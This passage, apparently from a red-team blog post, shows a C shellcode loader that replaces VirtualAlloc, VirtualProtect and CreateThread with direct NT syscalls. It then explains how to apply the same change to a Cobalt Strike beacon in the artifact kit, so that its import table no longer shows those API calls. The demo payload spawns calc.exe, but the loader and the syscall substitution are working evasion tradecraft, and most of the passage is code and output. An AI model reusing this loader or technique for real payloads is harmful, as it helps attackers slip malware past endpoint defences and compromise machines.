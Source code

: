 Our final code for the test program now looks like this (not including the shellcode from the start):
```c
int main()
{
    HANDLE hProc = GetCurrentProcess();
    DWORD oldprotect = 0;
    PVOID base_addr = NULL;
    HANDLE thandle = NULL;

    //1. Allocate new RW memory buffer for payload
    //LPVOID base_addr = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    // First syscall:
    NTSTATUS NTAVM = NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    //2. Copy the calc shellcode to the new memory buffer
    RtlMoveMemory(base_addr, calc_payload, calc_len);
    //3. Modify permissions on memory from RW to RX
    //auto vp = VirtualProtect(base_addr, calc_len, PAGE_EXECUTE_READ, &oldprotect);
    //Second syscall:
    NTSTATUS NTPVM = NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&calc_len, PAGE_EXECUTE_READ, &oldprotect);
    printf("Press any key to spawn shellcode\n");
    getchar();
    //4. Create a thread using the address of the RX region that contains our shellcode
    //auto ct = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)base_addr, 0, 0, 0); //CreateThread = NtCreateThreadEx
    //Third syscall:
    //	NTSTATUS sThread = NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProc, &run, ptr, FALSE, 0, 0, 0, NULL);
    NTSTATUS ct = NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);
    WaitForSingleObject(thandle, -1);
    free(base_addr);//clean up after ourselves
}
```

Compiling and running this spawns calc.exe beautifully.

With the above method it should be pretty straightforward to repeat the steps and add Syswhispers to the artifact kit visual studio project and replace the three API calls with syscalls. There is one catch that got me though:
in the `NtCreateThreadEx` function definition, there is a parameter called `IN PVOID Argument OPTIONAL`. This parameter is required to spawn the beacon thread in the artifact kit. Luckily we can easily find what we need to provide by looking at the `CreateThread` arguments already present in the artifact - I will leave this for the reader as an exercise.

With the WinAPI functions replaced, let's have a look at the import table of our modified beacon.exe:

```
 58B Sleep
 21D GetCurrentProcess
 27B GetModuleHandleA
 2B5 GetProcAddress
 4DA RtlLookupFunctionEntry
 4E1 RtlVirtualUnwind
 5BC UnhandledExceptionFilter
 57B SetUnhandledExceptionFilter
 59A TerminateProcess
 389 IsProcessorFeaturePresent
 27E GetModuleHandleW
 382 IsDebuggerPresent
 36C InitializeSListHead
 2F0 GetSystemTimeAsFileTime
 222 GetCurrentThreadId
```